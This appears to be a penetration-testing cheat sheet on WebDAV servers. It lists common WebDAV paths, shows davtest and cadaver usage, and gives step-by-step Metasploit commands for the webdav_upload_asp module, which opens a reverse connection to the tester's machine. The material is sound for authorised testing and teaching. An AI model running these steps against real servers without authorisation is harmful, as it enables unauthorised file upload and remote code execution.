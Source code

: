 **WebDAV** (Web Distributed Authoring and Versioning) is an extension of HTTP that allows users to collaboratively edit and manage files on web servers. It supports file creation, deletion, and modification directly over the web, making it useful for remote content management and file sharing. 

## Identification

WebDAV functionality is often configured in specific directories on a web server. Some common locations include:

- `/webdav/`
- `/dav/`
- `/files/`
- `/shared/`
- Root directory (`/`), depending on the server configuration.

## Davtest
**Davtest** is a tool for testing WebDAV servers. It checks for writable directories and uploads test files to evaluate potential exploitation options.

```bash
davtest -url <target_URL>
```

If the WebDAV server requires authentication, provide credentials using the `-auth` flag:

```bash
davtest -url http://example.com/webdav/ -auth <user>:<password>
```



## Cadaver
**Cadaver** is a command-line WebDAV client used to interact with WebDAV-enabled servers. It allows you to upload, download, manage, and delete files on a WebDAV server.

```bash
cadaver <URL>
```

#### Commands
Once access is gained with cadaver, commands such as the following can be executed.

| **Command**         | **Description**                                        |
| ------------------- | ------------------------------------------------------ |
| `ls`                | List files and directories on the server.              |
| `cd <directory>`    | Change to a different directory on the server.         |
| `pwd`               | Show the current directory on the server.              |
| `get <file>`        | Download a file from the server to your local machine. |
| `put <file>`        | Upload a file from your local machine to the server.   |
| `rm <file>`         | Delete a file on the server.                           |
| `mkdir <dir>`       | Create a new directory on the server.                  |
| `rmdir <dir>`       | Remove a directory on the server.                      |
| `mv <src> <dest>`   | Move or rename a file/directory.                       |
| `copy <src> <dest>` | Copy a file or directory on the server.                |
| `help`              | Show a list of commands and their descriptions.        |
| `quit`              | Exit the cadaver client.                               |


## Exploitation using Metasploit

1. **Set Up the Exploit Module**

```bash
use exploit/windows/http/webdav_upload_asp
```

2. **Configure the Exploit Options**

```bash
set RHOST <target_ip>
set RPORT 80
set TARGETURI /webdav/
set LHOST <your_local_ip>
set LPORT 4444
```

3. **Execute the Exploit**

```bash
exploit
```
